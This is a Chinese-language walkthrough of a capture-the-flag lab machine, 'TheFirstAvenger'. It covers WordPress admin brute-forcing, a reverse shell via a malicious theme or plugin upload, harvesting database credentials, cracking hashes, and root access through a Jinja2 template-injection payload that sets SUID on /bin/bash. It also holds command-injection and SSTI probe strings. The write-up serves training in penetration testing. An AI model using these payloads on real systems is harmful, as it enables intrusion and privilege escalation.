 # TheFirstAvenger

2025.02.26 https://thehackerslabs.com/thefirstavenger/

[video](https://www.bilibili.com/video/BV1LCP7eGEFd/?spm_id_from=333.1387.collection.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

web 首页无内容，扫描出 http://192.168.5.39/wp1/ 是个 wordpress，先使用 wpscan 进行常规扫描，只发现了一个插件 stop-user-enumeration 1.6.3 这个插件阻止了 wpscan 进行枚举。

将域名 thefirstavenger.thl 添加到 hosts 文件中，发现页面中有用户名 admin 尝试爆破其登陆密码，找到 admin 的登陆密码：

```
Username: admin, Password: spongebob
```

登陆 wp 后台，在 Theme 编辑的地方上传一个 zip 文件包，里面包含 index.php 和 style.css 文件，其中 style.css 的文件开始内容要类似这样的格式，同时创建的 zip 压缩包的名字与 Theme Name 一样：

```
/*
Theme Name: demo
*/

zip demo.zip index.php style.css
```

然后 index.php 就是反弹 shell 的 php 脚本，在 Theme install 后，就可以访问这个页面得到反弹的 shell：

```
curl http://thefirstavenger.thl/wp1/wp-content/themes/demo/index.php
```

这里如果上传的是一个插件，需要将 php 反弹文件的名称改成 zip 的的名称，同时与下面的 Plugin Name 名字一样，两个名称要保持一致，并且在 php 的开始加入下面这样的注释模板,否则插件识别不了，安装时报错：

```
/*
Plugin Name: test
*/

zip test.zip test.php
```

```
curl http://thefirstavenger.thl/wp1/wp-content/plugins/test/test.php
```

得到反弹后，先查看 wp 的数据库配置文件：

```
www-data@TheHackersLabs-Thefirstavenger:/var/www/html/wp1$ cat wp-config.php

define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wordpress' );
define( 'DB_PASSWORD', '9pXYwXSnap`4pqpg~7TcM9bPVXY&~RM9i3nnex%r' );
define( 'DB_HOST', 'localhost' );
```

先进数据库看看有什么，发现另外一个库 top_secret 读取其内容：

```
mysql> select * from avengers;
+----+--------------+------------+----------------------------------+
| id | name         | username   | password                         |
+----+--------------+------------+----------------------------------+
|  1 | Iron Man     | ironman    | cc20f43c8c24dbc0b2539489b113277a |   -> tony123
|  2 | Thor         | thor       | 077b2e2a02ddb89d4d25dd3b37255939 |   -> thorhammer
|  3 | Hulk         | hulk       | ae2498aaff4ba7890d54ab5c91e3ea60 |   -> smash123
|  4 | Black Widow  | blackwidow | 022e549d06ec8ddecb5d510b048f131d |   -> natasha456
|  5 | Hawkeye      | hawkeye    | d74727c034739e29ad1242b643426bc3 |   -> hawkeye
|  6 | Steve Rogers | steve      | 723a44782520fcdfb57daa4eb2af4be5 |   -> thecaptain
+----+--------------+------------+----------------------------------+
```

同时发现系统上有一个用户也叫 steve ，尝试破解其哈希 723a44782520fcdfb57daa4eb2af4be5 得到明文密码: thecaptain

su 切换到 steve ，拿到 user flag:

```
steve@TheHackersLabs-Thefirstavenger:~$ cat user.txt
vbh579vExKtPF359H2TikzAWuzNhMVACYeyEsYW7
```

发现以 root 身份运行了 /opt/app/server.py 脚本，ss 发现本地监听了 127.0.0.1:7092 curl 一下看看有什么显示，发现可以提供一个 ip，然后对这个 ip 进行 ping 操作：

```
<input type="text" id="ip" name="ip" value="" required>
curl -G --data-urlencode 'ip=192.168.5.3' http://127.0.0.1:7092
```

这里应该可以执行命令，进行变形：

```
curl -G --data-urlencode 'ip=192.168.5.3;id' http://127.0.0.1:7092
```

执行报错，绕不过去，在看看有没有 SSTI (因为看到页面上有输入信息的回显信息，这种情况下可能有模板使用的情况)：

```
curl -G --data-urlencode "ip={{7*'7'}}" http://127.0.0.1:7092
```

这时回显的数据上 form 中的 ip 字段变成了 `<input type="text" id="ip" name="ip" value="127.0.0.7777777" required>` 证明存在 SSTI，可能是 Jinja2，进行利用：

```
curl -G --data-urlencode "ip={{ self.__init__.__globals__.__builtins__.__import__('os').popen('chmod +xs /bin/bash').read() }}" http://127.0.0.1:7092
```

这时直接将 /bin/bash 变成了 suid 程序。

```
steve@TheHackersLabs-Thefirstavenger:/tmp$ /bin/bash -p
bash-5.2# cd /root
bash-5.2# ls
root.txt
bash-5.2# cat root.txt
LAZWSPcMckPMzNPtRrVHsDLjw754tT77t9MVuvda
```

最后在看一下 server.py 的实现源码，为什么命令执行那里不能注入，使用了 flask：

```
if not ip_address:
        return render_template_string(HTML_FORM)
    try:
        result = subprocess.check_output(['/usr/bin/ping', '-c', '1', ip_address], stderr=subprocess.STDOUT, text=True)
    except subprocess.CalledProcessError as e:
        result = f"Error al ejecutar: {e.output}"
    except Exception as e:
        result = f"Error inesperado: {str(e)}"
    return render_template_string(HTML_FORM, result=result, ip_address=ip_address)
```

subprocess.check_output 后面接的是参数，会当成一个整体，所以不能用;号分割。<?php system('whoami');?>

也可以用这个网站检测 SSTI https://cheatsheet.hackmanit.de/template-injection-table/ 按顺序输入各种 payload，然后根据返回结果，就可以进一步判断使用的是那种模板引擎。推荐测试：

```
{{1in[1]}}
```
